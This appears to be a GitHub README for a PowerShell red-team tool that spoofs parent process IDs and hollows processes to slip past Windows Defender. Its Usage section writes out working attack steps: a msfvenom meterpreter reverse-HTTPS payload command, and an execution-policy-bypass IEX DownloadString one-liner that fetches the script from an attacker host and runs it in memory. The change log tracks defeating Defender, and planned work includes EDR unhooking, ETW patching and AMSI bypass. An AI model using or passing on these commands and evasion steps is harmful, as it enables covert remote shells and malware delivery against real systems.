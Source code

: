 # Reflective PPID ⧓ ProcHollow
**A powershell script that performs reflective parent process ID (PPID) spoofing and process hollowing to evade Windows Defender**

```
                                        _____  _____ _____ _____                            
                                       |  __ \|  __ \_   _|  __ \                           
                                       | |__) | |__) || | | |  | |                          
           ((((((((*                   |  ___/|  ___/ | | | |  | |              /#######(         
        (((((((((((((((,               | |    | |    _| |_| |__| |              *##############(      
       ((((((((((((((((((((            |_|    |_|   |_____|_____/           .##################((     
      (((((((((((((((((((((((((                                         ######################(((    
      (((((((((((((((((((((((((((((     **                   /,     ##########################(((    
      ((((((((((((((((((((((((((((((((,     ************,,,     *#############################(((    
      ((((((((((((((((  ,(((((((((((((((,   ************,,,   ###############(,  #############(((    
      (((((((((((((((*                      ************,,,   ,                  (############(((    
      ((((((((((((((((((((((((((((((,       ************,,,       ,###########################(((    
      ((((((((((((((((((((((((((((((((((,   ************,,,   ################################(((    
      (((((((((((((((((((((((((((((.        ************,,,        ,(#########################(((    
      (((((((((((((((*                 ,.   ***********,,,,   /,                 #############(((    
      (((((((((((((((( ,((((((((((((((((,   ,,,,,,,,,,,,,,,   (((##############, #############(((    
      ((((((((((((((((((((((((((((((((      ,,,,,,,,,,,,,,,      ((((########################((((    
      ((((((((((((((((((((((((((((.     **                   /*     *((((###################(((((    
      ((((((((((((((((((((((((/     *///                      .///,     ((((#############((((((((    
       ((((((((((((((((((((     .////*                           /////      ((((((((((((((((((((     
        (((((((((((((((      //**.                                   ,**//      ((((((((((((((/      
           *(((((((        _____                _    _       _ _                      .(((((((.         
                          |  __ \              | |  | |     | | |              
                          | |__) | __ ___   ___| |__| | ___ | | | _____      __
                          |  ___/ '__/ _ \ / __|  __  |/ _ \| | |/ _ \ \ /\ / /
                          | |   | | | (_) | (__| |  | | (_) | | | (_) \ V  V / 
                          |_|   |_|  \___/ \___|_|  |_|\___/|_|_|\___/ \_/\_/  
```

The script has been hardcoded to search for a parent process (svchost.exe) that matches the current logged on user's privilege and spawns a child process (taskhostw.exe). Feel free to edit the script to take in arguments

*I developed the v1.0 script and have been using it since OSEP days... but it recently triggered an alert for Windows Defender. Decided to improve it to evade again, enjoy script v1.2😀*

## Demo Video
YouTube (higher resolution): https://www.youtube.com/watch?v=GB59m-KJvd0

## Usage
1. Generate msfvenom payload
`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=KALI_IP LPORT=443 EXITFUNC=thread -f ps1`
2. Search for `Your payload here` at the top of the script and replace it with the generated payload
3. Host the script on your kali `python3 -m http.server 8088`
4. On your target machine `powershell -ep Bypass -c IEX(New-Object System.Net.WebClient).DownloadString('http://KALI_IP:8088/Reflective-PPIDxProcHollow_v1.2.ps1')`

## Disclaimer
As we are performing parent process ID spoofing, it can be detected via Event Tracing for Windows (EWT).

## Evading AV
- The v1.0 script creates an alert on Windows Defender upon launching cmd.exe from meterpreter shell. However, your meterpreter shell will still be **kept alive** despite the alert.
- The v1.1 script eradicates the issue of v1.0 and it also makes the process looks more legitimate by spawning it under another parent process through PPID Spoofing. 
- The v1.2 script evades more AV due to it not touching disk at all 😁

## Change Logs
2022-12-12 -- v1.2
   - Converted the script to reflective
   - Disk is lava: Resolved v1.1 issue on temporarly artifacts written to disk.
   - Evading latest Windows Defender again as of 12 Dec 2022
   
2022-12-10 -- v1.1
   - Integrated with PPID spoofing
   - Evading latest Windows Defender again as of 10 Dec 2022

2021-09-18 -- v1.0
   - Simple Process Hollowing
   - Windows Defender alert pop up when launch cmd.exe but our meterpreter shell will not die
   
## Future Improvements
- Attempt to remove userland EDR hooks
- ETW patching
- AMSI bypass (still contemplating whether it is needed as we evaded Win Def)
